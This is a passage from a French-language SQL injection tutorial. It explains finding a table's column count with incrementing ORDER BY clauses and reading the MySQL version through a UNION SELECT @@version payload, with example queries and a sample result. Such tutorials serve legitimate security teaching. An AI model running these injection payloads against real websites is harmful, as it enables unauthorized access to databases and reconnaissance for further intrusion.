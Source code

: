 **Explication :**
- **Contexte:** Pour injecter des données correctement, il est important de connaître le nombre de colonnes de la table ciblée.
- **Objectif:** Trouver le nombre exact de colonnes dans la table.
- **Fonctionnement:** En augmentant `x` jusqu'à ce qu'une erreur survienne, l'attaquant peut déterminer le nombre de colonnes.

**Exemple :**
Si la requête de base est :
```sql
SELECT * FROM articles WHERE id = 1;
```

L'attaquant essaie différentes valeurs pour `x` :
```sql
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 1; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 2; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 3; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 4; -- Erreur
```

Lorsqu'une erreur survient à `ORDER BY 4`, cela indique que la table a 3 colonnes.

## 2.3. Obtenir la version de la base de données

**Commande :**
```sql
' OR 1=1 UNION SELECT 0,@@version,2 ORDER BY id; #
```

**Explication :**
- **Contexte:** Savoir la version du SGBD peut aider l'attaquant à adapter ses techniques d'exploitation.
- **Objectif:** Obtenir la version actuelle de la base de données.
- **Fonctionnement:** Utilisation de `UNION SELECT` pour combiner les résultats de la requête injectée avec ceux de la requête initiale.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0,@@version,2 ORDER BY id;
```

Résultat :
| id | titre                  | contenu |
|----|------------------------|---------|
| 0  | 5.7.32-log             | 2       |
| ...| ...                    | ...     |

La version de la base de données est `5.7.32-log`.
